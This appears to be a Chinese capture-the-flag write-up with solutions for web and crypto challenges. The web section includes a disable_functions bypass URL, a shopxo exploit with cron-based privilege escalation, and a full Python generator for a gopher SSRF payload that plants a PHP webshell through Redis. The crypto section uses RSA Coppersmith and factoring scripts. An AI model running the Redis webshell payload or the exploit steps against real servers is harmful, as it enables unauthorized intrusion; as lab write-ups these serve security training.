





web
CheckIN
bypass disable_functions。
http://791a7378-d553-43c1-b4a0-b01dd31bda7d.node3.buuoj.cn/?Ginkgo=aW5jbHVkZSgnL3RtcC8xMjMucGhwJyk7&cmd=./../../../../../readflag&outpath=/tmp/1.txt&sopath=/tmp/123.socve版签到
cve-2020-7066，是get_header()函数空字节截断

老八小超市儿
shopxo漏洞，网上找到解析，根据文章复现拿到shell。
flag在root目录下，没有权限，但是有个定时任务是以root身份运行的。可以修改这个任务执行命令。

EZ三剑客-EzWeb
ssrf得到源码。探测内网机器173.129.57.11得到了提示。 然后探测端口，发现6379回显不同，运行redis服务，所以就是ssrf gopher协议打内网redis。可以参考链接1 链接2
<?php
function curl($url){
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_HEADER, 0);
echo curl_exec($ch);
curl_close($ch);
}
if(isset($_GET['submit'])){
$url = $_GET['url'];
//echo $url."\n";
if(preg_match('/file\:\/\/|dict|\.\.\/|127.0.0.1|localhost/is', $url,$match))
{
//var_dump($match);
die('别这样');
}
curl($url);
}
if(isset($_GET['secret'])){
system('ifconfig');
}
?>
import urllib.parse
protocol="gopher://"
ip="173.129.57.11" # 运行有redis的主机ip
port="6379"
shell="\n\n<?php system(\"cat /flag\");?>\n\n"
filename="shell.php"
path="/var/www/html"
passwd=""
cmd=["flushall",
"set 1 {}".format(shell.replace(" ","${IFS}")),
"config set dir {}".format(path),
"config set dbfilename {}".format(filename),
"save"
]
if passwd:
cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
CRLF="\r\n"
redis_arr = arr.split(" ")
cmd=""
cmd+="*"+str(len(redis_arr))
for x in redis_arr:
cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
cmd+=CRLF
return cmd
if __name__=="__main__":
for x in cmd:
payload += urllib.parse.quote(redis_format(x))
print (payload)crypto
小学生的密码学


仿射密码，在线解密得到flag。
汉字的秘密
当铺密码，由笔画出头表示数字，对应数字如下。转换ascii码，发现与flag依次+1。
王壮 夫工 王中 王夫 由由井 井人 夫中 夫夫 井王 土土 夫由 土夫 井中 士夫 王工 王人 土由 由口夫
69 74 62 67 118 83 72 77 86 55 71 57 82 57 64 63 51 107a = [69,74,62,67,118,83,72,77,86,55,71,57,82,57,64,63,51,107]
b = 1
re = ''
for i in range(len(a)):
re += chr(a[i]+b)
b+=1
print(re.lower())babycrypto
# n:0xb119849bc4523e49c6c038a509a74cda628d4ca0e4d0f28e677d57f3c3c7d0d876ef07d7581fe05a060546fedd7d061d3bc70d679b6c5dd9bc66c5bdad8f2ef898b1e785496c4989daf716a1c89d5c174da494eee7061bcb6d52cafa337fc2a7bba42c918bbd3104dff62ecc9d3704a455a6ce282de0d8129e26c840734ffd302bec5f0a66e0e6d00b5c50fa57c546cff9d7e6a978db77997082b4cb927df9847dfffef55138cb946c62c9f09b968033745b5b6868338c64819a8e92a827265f9abd409359a9471d8c3a2631b80e5b462ba42336717700998ff38536c2436e24ac19228cd2d7a909ead1a8494ff6c3a7151e888e115b68cc6a7a8c6cf8a6c005L
# e:65537
# enc:1422566584480199878714663051468143513667934216213366733442059106529451931078271460363335887054199577950679102659270179475911101747625120544429262334214483688332111552004535828182425152965223599160129610990036911146029170033592055768983427904835395850414634659565092191460875900237711597421272312032796440948509724492027247376113218678183443222364531669985128032971256792532015051829041230203814090194611041172775368357197854451201260927117792277559690205342515437625417792867692280849139537687763919269337822899746924269847694138899165820004160319118749298031065800530869562704671435709578921901495688124042302500361
# p>>128<<128:0xe4e4b390c1d201dae2c00a4669c0865cc5767bc444f5d310f3cfc75872d96feb89e556972c99ae20753e3314240a52df5dccd076a47c6b5d11b531b92d901b2b512aeb0b263bbfd624fe3d52e5e238beeb581ebe012b2f176a4ffd1e0d2aa8c4d3a2656573b727d4d3136513a931428b00000000000000000000000000000000LRSA，然后发现p由于被移位导致丢失了128位的数据，所以已知p的高位求出其低位。使用Coppersmith定理攻击来得到完整的p，可以利用基于Python的一个数学处理库sage来实现。
n=0xb119849bc4523e49c6c038a509a74cda628d4ca0e4d0f28e677d57f3c3c7d0d876ef07d7581fe05a060546fedd7d061d3bc70d679b6c5dd9bc66c5bdad8f2ef898b1e785496c4989daf716a1c89d5c174da494eee7061bcb6d52cafa337fc2a7bba42c918bbd3104dff62ecc9d3704a455a6ce282de0d8129e26c840734ffd302bec5f0a66e0e6d00b5c50fa57c546cff9d7e6a978db77997082b4cb927df9847dfffef55138cb946c62c9f09b968033745b5b6868338c64819a8e92a827265f9abd409359a9471d8c3a2631b80e5b462ba42336717700998ff38536c2436e24ac19228cd2d7a909ead1a8494ff6c3a7151e888e115b68cc6a7a8c6cf8a6c005
p=0xe4e4b390c1d201dae2c00a4669c0865cc5767bc444f5d310f3cfc75872d96feb89e556972c99ae20753e3314240a52df5dccd076a47c6b5d11b531b92d901b2b512aeb0b263bbfd624fe3d52e5e238beeb581ebe012b2f176a4ffd1e0d2aa8c4d3a2656573b727d4d3136513a931428b00000000000000000000000000000000
p_fake = p+0x10000000000000000000000000
pbits = 1024
kbits = pbits-576
pbar = p_fake & (2^pbits-2^kbits)
PR. = PolynomialRing(Zmod(n))
f = x + pbar
x0 = f.small_roots(X=2^kbits, beta=0.4)[0] # find root < 2^kbits with factor >= n^0.4
print(x0 + pbar)
# result:160734387026849747944319274262095716650717626398118440194223452208652532694713113062084219512359968722796763029072117463281356654614167941930993838521563406258263299846297499190884495560744873319814150988520868951045961906000066805136724505347218275230562125457122462589771119429631727404626489634314291445667 import gmpy2
from Crypto.Util.number import *
n = 0xb119849bc4523e49c6c038a509a74cda628d4ca0e4d0f28e677d57f3c3c7d0d876ef07d7581fe05a060546fedd7d061d3bc70d679b6c5dd9bc66c5bdad8f2ef898b1e785496c4989daf716a1c89d5c174da494eee7061bcb6d52cafa337fc2a7bba42c918bbd3104dff62ecc9d3704a455a6ce282de0d8129e26c840734ffd302bec5f0a66e0e6d00b5c50fa57c546cff9d7e6a978db77997082b4cb927df9847dfffef55138cb946c62c9f09b968033745b5b6868338c64819a8e92a827265f9abd409359a9471d8c3a2631b80e5b462ba42336717700998ff38536c2436e24ac19228cd2d7a909ead1a8494ff6c3a7151e888e115b68cc6a7a8c6cf8a6c005
e = 65537
enc = 1422566584480199878714663051468143513667934216213366733442059106529451931078271460363335887054199577950679102659270179475911101747625120544429262334214483688332111552004535828182425152965223599160129610990036911146029170033592055768983427904835395850414634659565092191460875900237711597421272312032796440948509724492027247376113218678183443222364531669985128032971256792532015051829041230203814090194611041172775368357197854451201260927117792277559690205342515437625417792867692280849139537687763919269337822899746924269847694138899165820004160319118749298031065800530869562704671435709578921901495688124042302500361
#p>>128<<128:0xe4e4b390c1d201dae2c00a4669c0865cc5767bc444f5d310f3cfc75872d96feb89e556972c99ae20753e3314240a52df5dccd076a47c6b5d11b531b92d901b2b512aeb0b263bbfd624fe3d52e5e238beeb581ebe012b2f176a4ffd1e0d2aa8c4d3a2656573b727d4d3136513a931428b00000000000000000000000000000000L
p= 160734387026849747944319274262095716650717626398118440194223452208652532694713113062084219512359968722796763029072117463281356654614167941930993838521563406258263299846297499190884495560744873319814150988520868951045961906000066805136724505347218275230562125457122462589771119429631727404626489634314291445667
q=n//p
d=gmpy2.invert(e,(q-1)*(p-1))
print(long_to_bytes(pow(enc,d,n)))Backdoor
n可以在线分解出，所以可以直接求出flag。
from Crypto.Util.number import *
import gmpy2
n = 15518961041625074876182404585394098781487141059285455927024321276783831122168745076359780343078011216480587575072479784829258678691739
p = 3386619977051114637303328519173627165817832179845212640767197001941
q = 4582433561127855310805294456657993281782662645116543024537051682479
e = 65537
c = 0x02142af7ce70fe0ddae116bb7e96260274ee9252a8cb528e7fdd29809c2a6032727c05526133ae4610ed944572ff1abfcd0b17aa22ef44a2
d = gmpy2.invert(e,(p-1)*(q-1))
print(long_to_bytes(pow(c,d,n)))
# result: flag{760958c9-cca9-458b-9cbe-ea07aa1668e4}